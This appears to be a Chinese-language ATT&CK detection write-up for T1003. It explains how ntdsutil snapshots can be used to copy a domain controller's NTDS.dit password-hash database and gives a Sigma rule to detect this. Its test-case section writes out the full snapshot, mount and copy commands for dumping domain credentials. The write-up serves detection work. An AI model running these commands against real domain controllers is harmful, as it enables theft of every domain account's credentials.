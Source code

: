 # T1003-win-使用ntdsutil获得NTDS.dit文件

## 来自ATT&CK的描述

凭证获取是从操作系统和软件中获取登录信息和密码的过程，通常为HASH散列或明文密码。然后使用凭证进行横向移动访问其他系统。

### NTDS.dit

Ntds.dit文件是存储Active Directory数据的数据库，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希值。域控制器（DC）上的ntds.dit文件只能由可以登录到DC的用户访问。很明显，保护这个文件至关重要，因为攻击者访问这个文件会导致整个域沦陷。

**默认情况下，NTDS文件将位于域控制器的％SystemRoot％\NTDS\Ntds.dit中。**但通常存储在其他逻辑驱动器上）。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。

## 测试案例

在2008+域控上使用 ntdsutil snapshot mount导出ntds.dit

### 创建快照

```bash
ntdsutil snapshot  "activate  instance ntds"  create  quit quit
```

### Ntdsutil挂载域快照

```bash
ntdsutil snapshot  "mount {GUID}" quit  quit
```

### 复制快照

```bash
copy C:\$SNAP_201212082315_VOLUMEC$\windows\NTDS\ntds.dit  c:\ntds.dit #注意路径大小写问题
```

### 卸载快照

```bash
ntdsutil snapshot  "unmount {GUID}" quit  quit
```

### 删除快照

```bash
ntdsutil snapshot  "delete {GUID}" quit  quit

ntsutil.exe +PWPR(Passcape Windows Password Recovery)
```

## 检测日志

windows 安全日志

## 测试复现

![ntds1](https://s2.ax1x.com/2019/12/26/lAeIM9.png)

![ntds2](https://s2.ax1x.com/2019/12/26/lAeOPO.png)

## 测试留痕

windows 安全日志、4688进程创建、Ntsutil.exe进程名称。

![event_log](https://s2.ax1x.com/2019/12/26/lAuVDs.png)

## 检测规则/思路

```yml
title: 使用ntdsutil拿到NTDS.dit文件
description: windows server 2008 + AD域控
references: https://blog.csdn.net/Fly_hps/article/details/80641987
tags: T1003
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 4688 #已创建新的进程。
        Newprocessname: 'C:\Windows\System32\ntdsutil.exe' #新进程名称
    condition: selection
level: medium
```

注意：此检测仅适用于windows AD域控主机。

## 参考推荐

MITRE-ATT&CK-T1003：<https://attack.mitre.org/techniques/T1003/>

域渗透——获得域控服务器的NTDS.dit文件：<https://xz.aliyun.com/t/2187>

NTDS.dit密码快速提取工具：<https://www.secpulse.com/archives/6301.html>

域hash值破解的总结经验：<https://www.cnblogs.com/backlion/p/6785639.html?utm_source=itdadao&utm_medium=referral>
